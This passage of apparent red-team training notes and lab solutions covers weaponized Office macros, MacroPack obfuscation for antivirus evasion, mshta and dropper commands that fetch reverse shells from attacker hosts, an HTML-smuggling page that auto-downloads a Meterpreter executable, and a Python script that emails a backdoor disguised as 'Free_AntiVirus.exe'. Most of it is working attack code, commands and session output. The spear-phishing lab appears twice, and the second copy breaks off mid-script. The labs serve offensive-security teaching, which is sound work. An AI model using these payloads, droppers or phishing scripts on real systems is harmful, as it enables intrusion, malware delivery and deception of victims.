Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

`net localgroup administrators`:
```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
bob ←
The command completed successfully.
```

The HTA file can also be executed directly from the Run dialog or from the command line interface (CLI) using the following command: `mshta.exe http://192.168.42.23/reverse_shell.hta`.

Note that the `mshta.exe` execution can be also embedded in an Office macro.

```vb
Sub AutoOpen()
	ExecuteHTA
End Sub

Sub Document_Open()
	ExecuteHTA
End Sub

Sub ExecuteHTA()
	Dim url As String
	Dim command As String
	url = "http://192.168.42.23/reverse_shell.hta"
	command = "mshta.exe" & url
	Shell command, vbNormalFocus
End Sub
```

### Automating Macro Development (with MacroPack) - Theory

#### Automating Macro Development

So far, we have explored the various techniques and tools that can be used to develop MS Office macros manually.

Now that we have a fundamental understanding of how MS Office macros work, how to develop your own VBA Macros and how to weaponize VBA Macros, we can now explore the process of automating the macro development process.

The primary reason why we explored the manual techniques first, is so that we have an understanding of how macros work before we start including or using automated frameworks/tools to generate the macros for us.

#### Introduction to MacroPack

MacroPack is an open source community tool/framework developed in Python 3 that is used <u>to automate the development and weaponization of MS Office macros</u> for initial access.

MacroPack is a popular tool that is used in red teaming, pentests, and social engineering assessments.

It goes beyond standard automation by providing you with the ability to obfuscate the macros in the MS Office document. It also simplifies and automates the process of generating MS Office macros that can evade AV solutions.

Furthermore, it also supports a wide variety of MS Office file formats such as the MS Office retro document formats, for example; .doc.

#### MacroPack Formats

Scripting formats:
- VBA text file (.vba)
- VBS text file (.vbs)
- Windows Script File (.wsf)
- HTML Applications (.hta)

MS Office Supported formats:
- MS Word (.doc, .docm, .docx, .dotm)
- MS Excel (.xls, .xlsm, .xlsx, .xltm)
- MS PowerPoint (.pptm, .potm)
- MS Access (.accdb, .mdb)

#### MacroPack Obfuscation

MacroPack supports <u>various obfuscation techniques</u>, all of which are automated. The automation features are compatible with all VBA and VBS based formats that can be developed by MacroPack.

Obfuscation options:
- Renaming functions
- Renaming variables
- Removing spaces
- Removing comments
- Encoding strings

#### References and Resources

[MacroPack GitHub Repo](https://github.com/sevagas/macro_pack)

### Custom Undetectable Macro Development (with MacroPack) - Lab

#### Lab Environment

**Scenario**

In the following lab, you will learn how to generate custom undetectable Microsoft Office macros through the use of a toolkit called **MacroPack**.

MacroPack is an open source toolkit used by penetration testers and red teamers to automate the generation and obfuscation of malicious Microsoft Office documents.

**Goals**:
- Learn how to use MacroPack to generate MS Office macros.
- Develop a custom macro-based attack and the accompanying payloads.
- Evade any A/V or IDS in place.

**What you will learn**

Your goal is to develop a custom macro-based attack (and the accompanying payloads), to compromise a target without being detected.

In this lab's context we are going to be exploring various MS Office macro attack techniques ranging from executing MSF payloads to utilizing file droppers to facilitate our attack.

**Note**: The objective of this lab will be focused entirely on tooling and techniques, generating undetectable macros is a task that requires a lot of research and trial and error. As a result, you can take what you learn here and perform your own tests and come up with your own initial access strategy.

Tasks are meant for educational purposes and to show you the usage of different tools and different methods to achieve the same goal.
They are not meant to be used as a methodology.

Armed with the skills acquired though the task you can achieve the lab goal.

If this is the first time doing this lab, we advise you to follow these tasks:
- 1. Learn how to use MacroPack to generate a custom macro.
- 2. Generate a custom macro that performs arbitrary command execution.
- 3. Generate a custom Meterpreter reverse shell macro.
- 4. Using a dropper to orchestrate your macro attacks.

Recommended tools:
- Microsoft Office
- MacroPack

**Note**: This lab provides you with a pre-configured Windows Attack Box with AV disabled as we will be using it to generate our malicious macros. You will also be provided with access to a Windows Target system to facilitate and test your custom macros.

**Lab Access**

In this lab you will be provided with access to 2 Windows systems, an Attacker system and a Target.
By default, you will be provided with RDP access to the Attacker system and you can access the Windows target via RDP:
- Windows Target - 10.100.11.128

You can access the Target Windows system via RDP using the following credentials:
- Username: "Administrator"
- Password: "abc_123321!@#".

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>

1. Learn how to use MacroPack to generate a custom macro.

Download [the latest release of MacroPack from github](https://github.com/sevagas/macro_pack/releases).

`cd ./Desktop/macro_pack`, `dir`:
```
    Directory: C:\Users\Administrator\Desktop\macro_pack

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/4/2022  10:33 PM       10293247 macro_pack.exe ←
```

View the help information for MacroPack.

`./macro_pack.exe --help`:
```
 _  _   __    ___  ____   __     ____   __    ___  __ _
( \/ ) / _\  / __)(  _ \ /  \   (  _ \ / _\  / __)(  / )
/ \/ \/    \( (__  )   /(  O )   ) __//    \( (__  )  (
\_)(_/\_/\_/ \___)(__\_) \__/   (__)  \_/\_/ \___)(__\_)


  Malicious Office, VBS, Shortcuts and other formats for pentests and redteam - Version:2.2.0 Release:Community


Usage 1: echo  <parameters> | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t <TEMPLATE> -G <OUTPUT_FILE> [
ptions]
Usage 2: C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe  -f input_file_path -G <OUTPUT_FILE> [options]
Usage 3: more input_file_path | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -G <OUTPUT_FILE> [options]

Main payload generation options:
   -G, --generate=OUTPUT_FILE_PATH. Generates a file. Will guess the payload format based on extension. ←
       MacroPack supports most Ms Office and VB based payloads as well various kinds of shortcut files.
       Note: Office payload generation requires that MS Office application is installed on the machine
   --listformats View all file formats which can be generated by MacroPack
   -f, --input-file=INPUT_FILE_PATH A VBA macro file or file containing params for --template option or non VB formats
       If no input file is provided, input must be passed via stdin (using a pipe).
   -t, --template=TEMPLATE_NAME    Use code template already included in MacroPack
       MacroPack supports multiple predefined templates useful for social engineering, redteaming, and security bypass ←

   --listtemplates View all templates provided by MacroPack
   -e, --embed=EMBEDDED_FILE_PATH Will embed the given file in the body of the generated document.
       Use with EMBED_EXE template to auto drop and exec the file or with EMBED_DLL to drop/load the embedded dll.

Security bypass options:
   -o, --obfuscate Obfuscate code (remove spaces, obfuscate strings, obfuscate functions and variables name) ←
   If also possible to only apply parts of obfuscation using:
       --obfuscate-form to remove comments and space
       --obfuscate-names to rename functions and variables
       --obfuscate-declares to rename Win32 import declarations
       --obfuscate-strings to split and encode strings
   --obfuscate-names-charset=<CHARSET> Set a charset for obfuscated variables and functions
       Choose between: alpha, alphanum, complete or provide the list of char you want (default is alpha)
   --obfuscate-names-minlen=<len> Set min length of obfuscated variables and functions (default is 7)
   --obfuscate-names-maxlen=<len> Set max length of obfuscated variables and functions (default is 15)
   --uac-bypass Execute payload with high privileges if user is admin. Compatible with most MacroPack templates

Other options:
   -q, --quiet Do not display anything on screen, just process request.
   -p, --print Display result file on stdout (will display VBA for Office formats)
       Combine this option with -q option to pipe result into another program
       ex: cat input_file.vba | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -o -G obfuscated.vba -q -p | a
other_app
   -s, --start-function=START_FUNCTION   Entry point of macro file
       Note that macro_pack will automatically detect AutoOpen, Workbook_Open, or Document_Open  as the start function
   --icon Path of generated file icon. Default is %windir%\system32\imageres.dll,67
   --dde  Dynamic Data Exchange attack mode. Input will be inserted as a cmd command and executed via DDE
       This option is only compatible with Excel formats.
   --run=FILE_PATH Open document using COM to run macro. Can be useful to bypass whitelisting situations.
       This will trigger AutoOpen/Workbook_Open automatically.
       If no auto start function, use --start-function option to indicate which macro to run.
   --unicode-rtlo=SPOOF_EXTENSION Inject the unicode U+202E char (Right-To-Left Override) to spoof the file extension w
en view in explorers.
           Ex. To generate an hta file with spoofed jpg extension use options: -G something.hta --unicode-rtlo=jpg
           In this case, windows or linux explorers will show the file named as: somethingath.jpg
   -l, --listen=ROOT_PATH      Open an HTTP server from ROOT_PATH listening on default port 80.
   -w, --webdav-listen=ROOT_PATH Open a WebDAV server on default port 80, giving access to ROOT_PATH.
   --port=PORT Specify the listening port for HTTP and WebDAV servers.

   -h, --help   Displays help and exit

Notes:
   Have a look at README.md file for more details and usage!
   Home: www.github.com/sevagas && blog.sevagas.com
```

List all supported formats by MacroPack.

`./macro_pack.exe --listformats`:
```
 _  _   __    ___  ____   __     ____   __    ___  __ _
( \/ ) / _\  / __)(  _ \ /  \   (  _ \ / _\  / __)(  / )
/ \/ \/    \( (__  )   /(  O )   ) __//    \( (__  )  (
\_)(_/\_/\_/ \___)(__\_) \__/   (__)  \_/\_/ \___)(__\_)


  Malicious Office, VBS, Shortcuts and other formats for pentests and redteam - Version:2.2.0 Release:Community


   Supported Office formats:
      - Excel: .xlsm
      - Excel97: .xls ←
      - Word: .docm
      - Word97: .doc ←
      - PowerPoint: .pptm
      - MSProject: .mpp
      - Visio: .vsdm
      - Visio97: .vsd
      - Access: .mdb
   Note: Ms Office file generation requires Windows OS with MS Office application installed.

   Supported VB formats:
      - Visual Basic Script: .vbs
      - HTML Application: .hta
      - Windows Script Component: .sct
      - Windows Script File: .wsf
      - XSLT Stylesheet: .xsl

   Supported shortcuts/miscellaneous formats:
      - Shell Link: .lnk
      - Groove Shortcut: .glk
      - Explorer Command File: .scf
      - URL Shortcut: .url
      - Settings Shortcut: .SettingContent-ms
      - MS Library: .library-ms
      - Setup Information: .inf
      - Excel Web Query: .iqy
      - SYmbolic LinK: .slk
      - Compressed HTML Help: .chm
      - Command line: .cmd
      - Visual Studio Project: .csproj

   WARNING: These formats are only supported in MacroPack Pro:
      - SYmbolic LinK: .slk
      - Compressed HTML Help: .chm

    To create a payload for a certain format just add extension to payload.
    Ex.  -G payload.hta
```

List all available templates in MacroPack.

`./macro_pack.exe --listtemplates`:
```
  _  _   __    ___  ____   __     ____   __    ___  __ _
 ( \/ ) / _\  / __)(  _ \ /  \   (  _ \ / _\  / __)(  / )
 / \/ \/    \( (__  )   /(  O )   ) __//    \( (__  )  (
 \_)(_/\_/\_/ \___)(__\_) \__/   (__)  \_/\_/ \___)(__\_)


   Malicious Office, VBS, Shortcuts and other formats for pentests and redteam - Version:2.2.0 Release:Community


    Templates can be called using  -t, --template=TEMPLATE_NAME combined with other options.
    Available templates:

                --------------------

        HELLO
        Just print a hello message
        Give this template the name of the user
          -> Example: echo "World" | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t HELLO -G hello.pptm

                --------------------

        CMD ←
        Execute a command ←
        Give this template a command line
          -> Example:  echo "calc.exe" | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t CMD -o -G cmd.xsl ←

                --------------------

        REMOTE_CMD
        Execute a command line and send result to remote http server
        Give this template the server url and the command to run
          -> Example:  echo "http://192.168.0.5:7777" "dir /Q C:" | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t REMOTE_CMD -o -G cmd.doc

                --------------------

        DROPPER ←
        Download and execute a file ←
        Give this template the file url and the target file path
          -> Example:  echo <file_to_drop_url> "<download_path>" | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t DROPPER -o -G dropper.xls ←

                --------------------

        DROPPER_PS
        Download and execute Powershell script using rundll32 (to bypass blocked powershell.exe)
        Note: This payload will download PowerShdll from Github.
        Give this template the url of the powershell script you want to run
         -> Example:  echo "<powershell_script_url>" | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t DROPPER_PS -o -G powpow.doc

                --------------------

        DROPPER_DLL
        Download a DLL, drop it on file system without .dll extension, and run it using rundll32
          -> Example, load meterpreter DLL using Excel:

        REM Generate meterpreter dll payload
        msfvenom.bat  -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f dll -o meter.dll
        REM Make it available on webserver, ex using netcat on port 6666
        { echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat meter.dll; } | nc -l -p 6666 -q1
        REM Create Office file which will download DLL and call it
        REM The DLL URL is http://192.168.0.5:6666/normal.html and it will be saved as .asd file
        echo "http://192.168.0.5:6666/normal.html" Run | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t DROPPER_DLL -o -G meterdll.xls

                --------------------

        METERPRETER ←
        Meterpreter reverse TCP template using MacroMeter by Cn33liz. ←
        This template is CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from J
ames Forshaw
        Give this template the IP and PORT of listening mfsconsole
         -> Example: echo <ip> <port> | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t METERPRETER -o -G meter.docm ←

        This template also generates a  meterpreter.rc file to create the Metasploit handler
          -> Example: msfconsole -r meterpreter.rc

                --------------------

        EMBED_EXE
        Drop and execute embedded file.
        Combine with --embed option, it will drop and execute the embedded file with random name under TEMP folder.
         -> Example:  C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs

                --------------------

        EMBED_DLL
        Combine with --embed option, it will drop and call a function in the given DLL
        Give this template the name and parameters of function to call in DLL
        -> Example1 : echo "main" | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t EMBED_DLL --embed=cmd.dll -o -G cmd.doc
        -> Example2 : echo "main log privilege::debug sekurlsa::logonpasswords exit" | C:\Users\Administrator\Desktop\macro_pack\macro_pack.exe -t EMBED_DLL --embed=mimikatz.dll -o -G mimidropper.hta

                --------------------
```

2. Generate a custom macro that performs arbitrary command execution.

Generate a custom macro to execute a command (e.g., launching Calculator):
`echo "calc.exe" | ./macro_pack.exe -t CMD -G "example.doc" -o`

Where `-t CMD`: specifies the template to use, `-G "example.doc"`: generates the specified document type, `-o`: applies some obfuscation.

**Note**: The resulting macro code will be obfuscated, making it harder to read and analyze.

Note the all the resulting macro subroutines are very hard to read because of the applied obfuscation.

3. Generate a custom Meterpreter reverse shell macro.

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Ethernet:
   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::cd2a:c377:a968:bd5e%4
   IPv4 Address. . . . . . . . . . . : 10.100.11.15 ←
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.100.11.1
```

Install the Metasploit framework on Windows.

Start Metasploit and configure the handler:
`msfconsole -q`, `search handler`, `use exploit/multi/handler`, `show options`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST 10.100.11.15`, `set LPORT 4444`, `run`.

Generate the reverse shell macro:
`echo 10.100.11.15 4444 | ./macro_pack.exe -t METERPRETER -G "reverse.doc" -o`

Or alternatively:
`cd C:/metasploit-framework/bin`, `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=10.100.11.15 LPORT=4444 | .\macro_pack.exe -G "reverse.doc" -o`

This avoids specifying the template directly by using `msfvenom`.

Start a simple HTTP server to host the malicious document: `python -m http.server 80`

<span style="color: #64b5f6;">**Target (victim) machine**</span>

Access the Windows target machine via RDP (Windows Target: 10.100.11.128) using the credentials specified in the lab documentation:
- Username: "Administrator"
- Password: "abc_123321!@#".

Download and execute the Word backdoor document: `start firefox http://10.100.11.15/reverse.doc`

<span style="color: #e57373;">**Attacker machine**</span>

Check the Meterpreter session.

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

4. Using a dropper to orchestrate your macro attacks.

This is an alternative way to create a reverse shell using the MacroPack dropper template.

Generate the Meterpreter reverse shell executable:
`cd C:/metasploit-framework/bin`, `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=10.100.11.15 LPORT=4444 -f exe > C:\Users\Administrator\Desktop\macro_pack\reverse.exe`

Create an Excel document with an embedded macro acting as a dropper:

`echo "http://10.100.11.15/reverse.exe" "reverse.exe" | ./macro_pack.exe -t DROPPER -G "reverse.xls" -o`

By default, when the Excel document containing the macro is opened, the file `reverse.exe` will be downloaded to the Windows temporary directory (TEMP folder). This location is typically: C:\Users\<Username>\AppData\Local\Temp\reverse.exe

If you want to specify a different download path for the file, you can modify the second parameter in the `echo` command to include the desired path. For instance, if you want to download `reverse.exe` to `C:/Users/Administrator/Desktop`, you can update the command as follows: `echo "http://10.100.11.15/reverse.exe" "C:/Users/Administrator/Desktop/reverse.exe" | ./macro_pack.exe -t DROPPER -G "reverse.xls" -o`

---

## Delivery and Execution

### File Smuggling with HTML and JavaScript - Theory

#### Delivery

This is the phase in which the attacker delivers the payload or malicious document to the target, preparing for subsequent actions like exploitation and execution.

HTML smuggling is <u>a method to deliver hidden payloads through conventional delivery vectors, such as emails or websites</u>, enabling the attacker to establish initial access or execute malicious code on the target system.

#### HTML Smuggling

HTML smuggling is a technique used in client-side attacks, particularly in the context of red teaming and penetration testing.

It involves <u>embedding malicious payloads or scripts within an HTML or JavaScript-based element</u>, allowing the attacker to <u>smuggle the payload through network defenses, such as firewalls or email security gateways</u>.

HTML smuggling is often used to bypass security controls by hiding the malicious content within seemingly innocuous HTML components, which can then be decoded and executed on the client's side.

#### How HTML Smuggling Works

**Embedding Malicious Content:** In HTML smuggling, the attacker encodes or obfuscates the malicious payload within an HTML or JavaScript element. This can include embedding base64-encoded data or <u>splitting the payload into smaller segments that are reassembled on the client side</u>.

**Delivery Through Email or Web:** The attacker delivers the HTML content via email (in the form of HTML email bodies or attachments) or through a compromised or malicious website. Since the payload is hidden within HTML, it's less likely to be detected by security tools that focus on scanning email attachments or web traffic for malware signatures.

**Reconstruction and Execution:** Once the HTML content reaches the target's browser, the payload is reconstructed and executed. This could involve JavaScript logic to decode and reassemble the payload, leading to various outcomes, such as executing malicious scripts or downloading additional payloads.

### Windows: File Smuggling with HTML and JavaScript (with MSFvenom) - Lab

#### Lab Environment

A Kali GUI machine and a target machine server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (`/root/Desktop/target`). 

Your task is to create a web page and JavaScript that allows a malicious executable to download on the target machine when a user visits an attacker's web server. 

**Objective**: Exploit the target machine using file smuggling with HTML and JavaScript techniques.

Instructions:
- Your Kali machine has an interface with IP address `10.10.X.Y`. Run `ip addr` to know the values of X and Y.
- The IP address of the target machine is mentioned in the file `/root/Desktop/target`.
- Do not attack the gateway located at IP address `192.V.W.1` and `10.10.X.1`.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

Identify target IP address.

`cat /root/Desktop/target`:
```
Target IP Address : 10.4.29.108 ←
```

Identify attacker IP address.

`ip addr | grep -i "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.6/16 brd 10.1.255.255 scope global eth0
inet 10.10.4.4/24 brd 10.10.4.255 scope global eth1 ←
```

Note: The interface eth1 with IP 10.10.4.4 will be used for LHOST.

Configure and start the Metasploit Handler.

`vim /root/Desktop/handler.rc`:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.3
set LPORT 4444
run
```

`msfconsole -r /root/Desktop/handler.rc`

Generate the reverse TCP base64 encoded payload.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.4 LPORT=4444 -f exe -o /root/Desktop/backdoor.exe`

`base64 -w0 /root/Desktop/backdoor.exe > /root/Desktop/backdoor_base64.txt`

Set up the malicious web server.

`cd /var/www/html`, `vim index.html`:
```html
<html>
    <body>
        <script>
            function base64ToArrayBuffer(base64) {
                var binary_string = window.atob(base64);
                var len = binary_string.length;

                var bytes = new Uint8Array(len);

                for (var i = 0; i < len; i++) {
                    bytes[i] = binary_string.charCodeAt(i);
                }

                return bytes.buffer;
            }

            var file = '';

            var data = base64ToArrayBuffer(file);
            var blob = new Blob([data], { type: 'octet/stream' });
            var fileName = 'msfstaged.exe';

            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';

            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;

            a.click();

            window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```

Note: Insert the base64 content from `backdoor_base64.txt` into the `file` variable in `index.html`.

`service apache2 start`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

Download and Execute the Payload. Visit the homepage (`index.html`) of the hosted website from the target machine: `http://10.10.4.4`.
The payload (`msfstaged.exe`) will be automatically downloaded and executed.

<span style="color: #e57373;">**Attacker machine**</span>.

Verify access to the Target machine.

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

### Initial Access via Spear Phishing Attachment (with MSFvenom) - Lab

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ip addr | grep -i "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.7/16 brd 10.1.255.255 scope global eth0
inet 10.10.80.2/22 brd 10.10.83.255 scope global eth1 ←
```

`ping -c 3 demo.ine.local`:
```
PING demo.ine.local (10.4.18.239) 56(84) bytes of data.
64 bytes from demo.ine.local (10.4.18.239): icmp_seq=1 ttl=125 time=8.76 ms
64 bytes from demo.ine.local (10.4.18.239): icmp_seq=2 ttl=125 time=7.76 ms
64 bytes from demo.ine.local (10.4.18.239): icmp_seq=3 ttl=125 time=7.77 ms

--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms ←
rtt min/avg/max/mdev = 7.756/8.094/8.756/0.468 ms
```

`ping -c 3 demo1.ine.local`:
```
PING demo1.ine.local (10.4.22.0) 56(84) bytes of data.

--- demo1.ine.local ping statistics ---
3 packets transmitted, 0 received, 100% packet loss, time 2039ms ←
```

`nmap -Pn -sS -sV -F demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-25 18:59 IST
Nmap scan report for demo.ine.local (10.4.18.239)
Host is up (0.0080s latency).
Not shown: 84 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
25/tcp    open  smtp               hMailServer smtpd ←
53/tcp    open  domain             Simple DNS Plus
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2024-07-25 13:29:19Z)
110/tcp   open  pop3               hMailServer pop3d
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
143/tcp   open  imap               hMailServer imapd
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: ine.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: INE)
587/tcp   open  smtp               hMailServer smtpd ←
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49157/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: ATTACKDEFENSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.17 seconds
```

We will use an SMTP Python 3 library to send an email with a malicious attachment.

`vim /root/Desktop/handler.rc`:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.80.2 ←
set LPORT 4444
run
```

`msfconsole -r /root/Desktop/handler.rc`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o /root/Desktop/backdoor.exe`

`which python3`:
```
/usr/bin/python3
```

`featherpad /root/Desktop/smtplib_send_email.py`:
```python
#!/usr/bin/python3
import smtplib

from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

fromaddr = "attacker@fake.net"
toaddr = "bob@ine.local"

# instance of MIMEMultipart
msg = MIMEMultipart()

# storing the senders email address
msg['From'] = fromaddr

# storing the receivers email address
msg['To'] = toaddr

# storing the subject
msg['Subject'] = "Subject of the Mail"

# string to store the body of the mail
body = "Body of the mail"

# attach the body with the msg instance
msg.attach(MIMEText(body, 'plain'))

# open the file to be sent
filename = "Free_AntiVirus.exe"
attachment = open("/root/Desktop/backdoor.exe", "rb") ←

# instance of MIMEBase and named as p
p = MIMEBase('application', 'octet-stream')

# To change the payload into encoded form
p.set_payload((attachment).read())

# encode into base64
encoders.encode_base64(p)

p.add_header('Content-Disposition', "attachment; filename= %s" % filename)

# attach the instance 'p' to instance 'msg'
msg.attach(p)

# creates SMTP session
s = smtplib.SMTP('demo.ine.local', 25)

# Converts the Multipart msg into a string
text = msg.as_string()

# sending the mail
s.sendmail(fromaddr, toaddr, text)

# terminating the session
s.quit()

# print confirmation message print("Email has been sent successfully.")
print("Email has been sent successfully.")
```

`chmod +x /root/Desktop/smtplib_send_email.py`, `/root/Desktop/smtplib_send_email.py`

Note that the email attachment will be executed automatically.

<span style="color: #64b5f6;">**Target (victim #1: demo.ine.local) machine**</span>.

`getuid`:
```
Server username: INE\administrator ←
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600). ←
Architecture    : x64
System Language : en_US
Domain          : INE
Logged On Users : 4
Meterpreter     : x86/windows
```

### Client-Side Black-Box Penetration Test (with Nmap, MSFvenom, Metasploit) - Lab

#### Lab Environment

In this lab, you will learn to scan the target machine to discover services and perform phishing attacks to gain access to the system.

In this lab environment, the user will access a Kali GUI instance. A vulnerable instance can be accessed using the tools installed on Kali on `demo.ine.local` and `demo1.ine.local`.

**Target Email Address**: `bob@ine.local`

**Objective:** Exploit both the target and find the flag!

The best tools for this lab are:
- Nmap
- Metasploit Framework
- Python

Tasks are meant for educational purposes and to show you the usage of different tools and different methods to achieve the same goal.

Please go ahead ONLY if you have COMPLETED the lab or you are stuck! Checking the solutions before actually trying the concepts and techniques you studied in the course will dramatically reduce the benefits of a hands-on lab!

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ip addr | grep -i "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.7/16 brd 10.1.255.255 scope global eth0
inet 10.10.80.2/22 brd 10.10.83.255 scope global eth1 ←
```

`ping -c 3 demo.ine.local`:
```
PING demo.ine.local (10.4.18.239) 56(84) bytes of data.
64 bytes from demo.ine.local (10.4.18.239): icmp_seq=1 ttl=125 time=8.76 ms
64 bytes from demo.ine.local (10.4.18.239): icmp_seq=2 ttl=125 time=7.76 ms
64 bytes from demo.ine.local (10.4.18.239): icmp_seq=3 ttl=125 time=7.77 ms

--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms ←
rtt min/avg/max/mdev = 7.756/8.094/8.756/0.468 ms
```

`ping -c 3 demo1.ine.local`:
```
PING demo1.ine.local (10.4.22.0) 56(84) bytes of data.

--- demo1.ine.local ping statistics ---
3 packets transmitted, 0 received, 100% packet loss, time 2039ms ←
```

`nmap -Pn -sS -sV -F demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-25 18:59 IST
Nmap scan report for demo.ine.local (10.4.18.239)
Host is up (0.0080s latency).
Not shown: 84 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
25/tcp    open  smtp               hMailServer smtpd ←
53/tcp    open  domain             Simple DNS Plus
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2024-07-25 13:29:19Z)
110/tcp   open  pop3               hMailServer pop3d
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
143/tcp   open  imap               hMailServer imapd
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: ine.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: INE)
587/tcp   open  smtp               hMailServer smtpd ←
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49157/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: ATTACKDEFENSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.17 seconds
```

We will use an SMTP Python 3 library to send an email with a malicious attachment.

`vim /root/Desktop/handler.rc`:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.80.2 ←
set LPORT 4444
run
```

`msfconsole -r /root/Desktop/handler.rc`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o /root/Desktop/backdoor.exe`

`which python3`:
```
/usr/bin/python3
```

`featherpad /root/Desktop/smtplib_send_email.py`:
```python
#!/usr/bin/python3
import smtplib

from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

fromaddr = "attacker@fake.net"
toaddr = "bob@ine.local"

# instance of MIMEMultipart
msg = MIMEMultipart()

# storing the senders email address
msg['From'] = fromaddr

# storing the receivers email address
msg['To'] = toaddr

# storing the subject
msg['Subject'] = "Subject of the Mail"

# string to store the body of the mail
body = "Body of the mail"

# attach the body with the msg instance
msg.attach(MIMEText(body, 'plain'))

# open the file to be sent
filename = "Free_AntiVirus.exe"
attachment = open("/root/Desktop/backdoor.exe", "rb") ←

# instance of MIMEBase and named as p
p = MIMEBase('application', 'octet-stream')

# To change the payload into encoded form
p.set_payload((attachment).read())

# encode into base64
encoders.encode_base64(p)

p.add_header('Content-Disposition', "attachment; filename= %s" % filename)

# attach the instance 'p' to instance 'msg'
msg.attach(p)

# creates SMTP session
